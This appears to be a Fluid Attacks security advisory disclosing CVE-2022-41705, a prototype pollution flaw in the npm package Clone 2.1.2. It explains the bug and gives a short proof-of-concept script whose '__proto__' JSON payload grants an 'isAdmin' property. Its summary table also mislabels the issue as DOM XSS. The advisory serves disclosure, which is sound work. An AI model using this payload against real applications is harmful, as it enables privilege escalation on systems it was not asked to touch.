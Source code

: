 ```yaml
---
slug: advisories/guetta/
title: Clone 2.1.2 - Prototype Pollution
authors: Carlos Bello
writer: cbello
codename: guetta
product: Clone 2.1.2
date: 2022-10-13 03:30 COT
cveid: CVE-2022-41705
severity: 9.1
description: Clone 2.1.2   -   Prototype Pollution Vulnerability
keywords: Fluid Attacks, Security, Vulnerabilities, Clone, Prototype Pollution, Electron, NPM
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Clone 2.1.2  -  DOM XSS to Account Takeover            |
| **Code name**         | [Guetta](https://en.wikipedia.org/wiki/David_Guetta)   |
| **Product**           | Clone                                                  |
| **Affected versions** | Version 2.1.2                                          |
| **State**             | Public                                                 |
| **Release date**      | 2022-10-13                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Prototype Pollution                                                                                    |
| **Rule**              | [390. Prototype Pollution](https://docs.fluidattacks.com/criteria/vulnerabilities/390)                 |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 9.1                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-41705](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41705)                        |

## Description

Clone version 2.1.2 allows an external attacker to edit or add new
properties to the object that receives the clone. This is possible
because the application does not properly validate the keys of the
incoming JSON, thus allowing it to edit the  `__proto__`  property,
which will inherit the object receiving the clone.

## Vulnerability

Prototype pollution is a vulnerability that affects JS. It occurs
when a third party manages to modify the `__proto__` of an object.
JavaScript first checks if such a method/attribute exists in the
object. If so, then it calls it. If not, it looks in the object's
prototype. If the method/attribute is also not in the object's
prototype, then the property is said to be undefined.

Therefore, if an attacker manages to inject a `__proto__` property,
through insecure operations such as deepclone, merge, etc. He will
manage to inject or edit the properties of an application object as
shown in the following example:

## Exploitation

### poc.js

```js
var clone = require('clone');

var admin = { isAdmin : true };
var guest = { name : "guest" };

var malicious_payload = '{"__proto__":{"isAdmin":true}}'; // HTTP Request

console.log("\nGuest isAdmin? => " + guest.isAdmin);      // undefined
guest = clone(JSON.parse(malicious_payload));             // hack
console.log("Guest.isAdmin? => " + guest.isAdmin + "\n"); // true
```

## Our security police

We have reserved the CVE-2022-41705 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Clone 2.1.2
* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/pvorb/clone>

## Timeline

<time-lapse
  discovered="2022-09-19"
  contacted="2022-09-19"
  replied="2022-09-19"
  confirmed=""
  patched=""
  disclosure="2022-10-13">
</time-lapse>
